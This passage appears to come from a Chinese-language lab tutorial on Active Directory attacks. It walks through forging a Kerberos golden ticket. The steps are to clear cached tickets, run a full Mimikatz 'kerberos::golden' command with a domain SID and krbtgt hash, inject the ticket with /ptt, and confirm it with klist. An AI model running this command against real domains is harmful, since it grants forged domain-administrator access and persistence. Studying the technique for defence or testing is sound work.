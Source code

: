 ![image-20210916202326305](image/image-20210916202326305.png)

**获取到所有要用的信息后开始制作黄金票据**

①清除系统中所有缓存的票据

![image-20210916202518433](image/image-20210916202518433.png)

②使用Mimikatz制作黄金票据并注入到内存中

```sh
kerberos::golden  /admin:Administrator  /domain:y5nekoad.com  /sid:S-1-5-21-1272869298-2579316034-2461789828 /krbtgt:c6c752f26fddb1fa1e8826403fcf4eb2  /ptt			#若需要aes则将krbtgt换成aes256
```

![image-20210916202749062](image/image-20210916202749062.png)

③制作成功，使用`klist`查看注入的票据
